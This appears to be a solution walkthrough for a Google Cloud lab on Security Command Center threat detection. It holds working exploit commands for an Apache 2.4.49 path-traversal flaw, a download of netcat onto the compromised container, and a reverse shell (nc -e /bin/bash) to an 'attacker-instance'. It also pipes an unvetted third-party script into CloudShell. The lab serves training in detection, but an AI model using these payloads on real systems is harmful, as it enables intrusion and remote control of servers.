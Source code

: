 # Detect and Investigate Threats with Security Command Center || [GSP1125](https://www.cloudskillsboost.google/focuses/71932?parent=catalog) ||

## Solution [here](https://youtu.be/0cPi257X7js)

* Go to `Audit Logs` from [here](https://console.cloud.google.com/iam-admin/audit)

* Asssign the `PERMISSION` for `Cloud Resource Manager API`

### Run the following Commands in CloudShell

```
export ZONE=
```
```
curl -LO raw.githubusercontent.com/QUICK-GCP-LAB/2-Minutes-Labs-Solutions/main/Detect%20and%20Investigate%20Threats%20with%20Security%20Command%20Center/gsp1125-1.sh

sudo chmod +x gsp1125-1.sh

./gsp1125-1.sh
```

### Run again the following Commands in CloudShell

```
export IP=
export ZONE=
```
```
sudo snap remove google-cloud-cli
curl -O https://dl.google.com/dl/cloudsdk/channels/rapid/downloads/google-cloud-cli-438.0.0-linux-x86_64.tar.gz
tar -xf google-cloud-cli-438.0.0-linux-x86_64.tar.gz
./google-cloud-sdk/install.sh
```
```
. ~/.bashrc
gcloud components install kubectl gke-gcloud-auth-plugin --quiet
gcloud container clusters create test-cluster \
--zone "$ZONE" \
--enable-private-nodes \
--enable-private-endpoint \
--enable-ip-alias \
--num-nodes=1 \
--master-ipv4-cidr "172.16.0.0/28" \
--enable-master-authorized-networks \
--master-authorized-networks "$IP"
sleep 30
while true; do
    output=$(kubectl describe daemonsets container-watcher -n kube-system)
    if [[ $output == *container-watcher-unique-id* ]]; then
        echo "Found unique ID in the output:"
        echo "$output"
        break
    else
        echo "Please Wait for sometime..."
        sleep 10
    fi
done
```
```
kubectl create deployment apache-deployment \
--replicas=1 \
--image=us-central1-docker.pkg.dev/cloud-training-prod-bucket/scc-labs/ktd-test-httpd:2.4.49-vulnerable
kubectl expose deployment apache-deployment \
--name apache-test-service  \
--type NodePort \
--protocol TCP \
--port 80
NODE_IP=$(kubectl get nodes -o jsonpath={.items[0].status.addresses[0].address})
NODE_PORT=$(kubectl get service apache-test-service \
-o jsonpath={.spec.ports[0].nodePort})
gcloud compute firewall-rules create apache-test-service-fw \
--allow tcp:${NODE_PORT}
gcloud compute firewall-rules create apache-test-rvrs-cnnct-fw --allow tcp:8888
```
```
curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
--path-as-is \
--insecure \
--data "echo Content-Type: text/plain; echo; id"
curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
--path-as-is \
--insecure \
--data "echo Content-Type: text/plain; echo; ls -l /"
curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
--path-as-is \
--insecure \
--data "echo Content-Type: text/plain; echo; hostname"
gsutil cp \
gs://cloud-training/gsp1125/netcat-traditional_1.10-41.1_amd64.deb .
mkdir netcat-traditional
dpkg --extract netcat-traditional_1.10-41.1_amd64.deb netcat-traditional
LOCAL_IP=$(ip -4 addr show ens4 | grep -oP '(?<=inet\s)\d+(\.\d+){3}')
echo ${LOCAL_IP}
python3 -m http.server --bind ${LOCAL_IP} \
--directory ~/netcat-traditional/bin/ 8888 &
```
```
curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
--path-as-is \
--insecure \
--data "echo Content-Type: text/plain; echo; id"
curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
--path-as-is \
--insecure \
--data "echo Content-Type: text/plain; echo; ls -l /"
curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
--path-as-is \
--insecure \
--data "echo Content-Type: text/plain; echo; hostname"
gsutil cp \
gs://cloud-training/gsp1125/netcat-traditional_1.10-41.1_amd64.deb .
mkdir netcat-traditional
dpkg --extract netcat-traditional_1.10-41.1_amd64.deb netcat-traditional
LOCAL_IP=$(ip -4 addr show ens4 | grep -oP '(?<=inet\s)\d+(\.\d+){3}')
echo ${LOCAL_IP}
python3 -m http.server --bind ${LOCAL_IP} \
--directory ~/netcat-traditional/bin/ 8888 &
```
```
curl http://${LOCAL_IP}:8888
curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" --path-as-is --insecure --data "echo Content-Type: text/plain; echo; curl http://${LOCAL_IP}:8888/nc.traditional -o /tmp/nc"
curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
--path-as-is \
--insecure \
--data "echo Content-Type: text/plain; echo; chmod +x /tmp/nc"
pkill python
curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
--path-as-is \
--insecure \
--data "echo Content-Type: text/plain; echo; /tmp/nc"
```
* In `new terminal` run the below command

```
export ZONE=
```
```
gcloud compute ssh --zone "$ZONE" "attacker-instance" --quiet --command "nc -nlvp 8888"
```

* In `1st terminal` run the below command

```
curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" --path-as-is --insecure --data "echo Content-Type: text/plain; echo; /tmp/nc ${LOCAL_IP} 8888 -e /bin/bash"
```

### Congratulations 🎉 for completing the Lab !

##### *You Have Successfully Demonstrated Your Skills And Determination.*

#### *Well done!*

#### Don't Forget to Join the [Telegram Channel](https://t.me/QuickGcpLab) & [Discussion group](https://t.me/QuickGcpLabChats)

# [QUICK GCP LAB](https://www.youtube.com/@quickgcplab)
